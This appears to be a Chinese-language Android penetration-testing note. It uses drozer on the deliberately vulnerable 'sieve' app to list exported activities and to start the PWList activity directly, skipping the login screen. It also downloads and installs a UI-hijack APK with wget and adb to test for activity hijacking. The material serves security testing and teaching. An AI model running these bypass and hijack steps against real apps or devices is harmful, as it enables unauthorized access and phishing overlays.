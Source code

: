 ```xml
<activity android:name="com.my.app.Initial" android:exported="true">
</activity>
```

drozer获得可导出activity  

```bash
# run app.activity.info -a <packagename>
dz> run app.activity.info -a com.mwr.example.sieve
Package: com.mwr.example.sieve
  com.mwr.example.sieve.FileSelectActivity
    Permission: null
  com.mwr.example.sieve.MainLoginActivity
    Permission: null
  com.mwr.example.sieve.PWList
    Permission: null
```



#### 越权绕过测试

正常第一次打开是这样的

![image-20231012232654681](../../../images/image-20231012232654681.png)

对应的是`MainLoginActivity`这个activity

![image-20231012232931968](../../../images/image-20231012232931968.png)

调用`PWList`这个activity，实现登录绕过界面

```
dz> run app.activity.start --component com.mwr.example.sieve com.mwr.example.sieve.PWList
```

![image-20231012232745487](../../../images/image-20231012232745487.png)

#### **Activity劫持**

```bash
# 环境准备
wget https://github.com/yanghaoi/android_app/raw/master/uihijackv2.0_sign.apk
# 安装点击劫持软件
adb install uihijackv2.0_sign.apk
```

劫持测试

```bash
dz> run app.package.list -f jack
com.test.uihijack (Hijack测试)

dz> run app.activity.start --component com.test.uihijack com.test.uihijack.MainActivity
```

在打开原activity的基础上，调用此组件，如果`uihijackv2.0_sign`界面位于被测软件上，则存在漏洞，否则不存在漏洞。如下图为存在漏洞的情况。
